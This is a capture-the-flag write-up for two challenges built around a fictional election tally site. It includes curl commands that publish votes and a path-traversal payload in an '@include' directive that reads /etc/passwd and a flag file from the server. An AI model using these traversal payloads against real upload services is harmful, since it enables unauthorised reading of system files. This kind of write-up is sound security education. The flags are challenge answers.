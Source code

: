 # This Things Rigged
In this challenge, we're provided with the URL to a "tallyroom" website, with live updates of a vote count in a fictional election. The description of the challenge mentions that the new system is "decentralized and distributed" but asks where to documentation for the system is.
### Who Are the Devs?
The challenge states that brute-forcing with `gobuster` or similar tools is not required, so we can assume that the website itself contains all the information required to find the documentation we're looking for. The website has several pages, with information on the parties, information the different states, and a news page with several articles. If we look at all the articles we can see the IDs are sequential, but the news page doesn't list all the articles available if we assume the numbering starts from 0. If we try and access the article with ID 0, we get some information on the website itself!
>This page about Freedonia's digital voting infrastructure is currently being developed. Our organization Freedonia Government Services' (the Freedonian government services directorate) is working hard to bring you comprehensive information about the technology that powers our democratic process.

So now we know the name of the developers of this website! If you finished *Log of Doom* you might have seen the GitHub `README` for the *Freedonia Vote Synchronization System*. The author of this information is the "Freedonia Government Services", the same name mentioned on the website, so this is likely the documentation we're looking for. Alternatively, we can just search GitHub users for "Freedonia Government Services" and find the account that way.
### Where is the Service?
At the time I completed the challenge, the URL hadn't been updated to the `sync.tallyroom.freedonia.vote` URL, so I needed to figure out where the URL myself. Eventually I noticed that the URL listed at the time was on the `sync.` subdomain, and trying this on the `tallyroom.freedonia.vote` URL let me find the server.
### Follow the Guide
Now that we have the documentation and the server URL, we can follow the instructions in the "Testing" section to connect to the service and publish some test votes.
```shell
$ curl https://sync.tallyroom.freedonia.vote/healthz
{"status":"ok"}
$ curl -N "https://sync.tallyroom.freedonia.vote/api/votes/subscribe/Izzi"
event:vote-update
data:{"ID":0,"CreatedAt":"0001-01-01T00:00:00Z","UpdatedAt":"0001-01-01T00:00:00Z","DeletedAt":null,"state_id":8,"party_id":1,"votes":58676,"percentage":16.00034904299501,"timestamp":"2025-07-30T19:22:10.005139622+10:00","update_source":"Izzi"}
```
With our subscription setup we can create our test file and publish it to the server.
```shell
$ echo "1,1,1000,50.0,Test Upload" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"

{"filename":
...
```
In our terminal with the subscription to the Izzi votes, we should see the following line appear:
```
event:vote-update
data:{"ID":0,"CreatedAt":"0001-01-01T00:00:00Z","UpdatedAt":"0001-01-01T00:00:00Z","DeletedAt":null,"state_id":1,"party_id":1,"votes":1000,"percentage":50,"timestamp":"2025-07-30T09:22:12.013399822Z","update_source":"SECEDU{h00k_th3_v0te}"}
```
# Digital Ballots
Now that we've found the documentation and the server, we can go on to complete the next challenge. The description doesn't provide much in the way of hints for this one, but if we go back to the documentation for the service we can find the existence of an `@include` directive for RSU files. This is probably relevant to the challenge, with the most likely use being local file inclusion.
### Trying an Include
To begin, let's try creating a simple RSU file with just an include directive and send it to the server.
```shell
$ echo "@include \"test.rsu\"" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: include path outside input directory"}
```
Hmm, this error is a little odd because it's telling us that the path is outside the expected directory, rather than telling us the file doesn't exist. Let's try adding "include" to our path.
```shell
$ echo "@include \"input/test.rsu\"" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: include path outside input directory"}
```
Same result. What about using an absolute path?
```shell
$ echo "@include \"/input/test.rsu\"" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: failed to include /input/test.rsu: failed to open file /input/input/test.rsu: open /input/input/test.rsu: no such file or directory"}
```
Great! Now we know we have to include `/input/` at the start of our path, let's try some traversal and see if it works. 
### Finding the Flag
We can see from the path in the error message before that we should use `..` twice to get to the root path.
```shell
$ echo "@include \"/input/../../etc/passwd\"" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: error in included file /input/../../etc/passwd: Line 1: insufficient columns - need at least 4, got 1: root:x:0:0:root:/root:/bin/bash"}
```
Perfect, we can traverse through the filesystem, and see part of the file we're trying to access. Now we can try and find the flag. The easiest place to look is the root directory so let's try there.
```shell
$ echo "@include \"/input/../../flag.txt\"" > test.rsu
$ curl -X POST -F "file=@test.rsu" "https://sync.tallyroom.freedonia.vote/api/votes/publish/Izzi"
{"error":"RSU parsing error: Line 1: error in included file /input/../../flag.txt: Line 1: insufficient columns - need at least 4, got 1: SECEDU{es0t3ric}"}%
```
First try! (Though not really.) Other places to try if the flag weren't there would be `/root`, `/app`, or just `flag` without the `.txt` extension.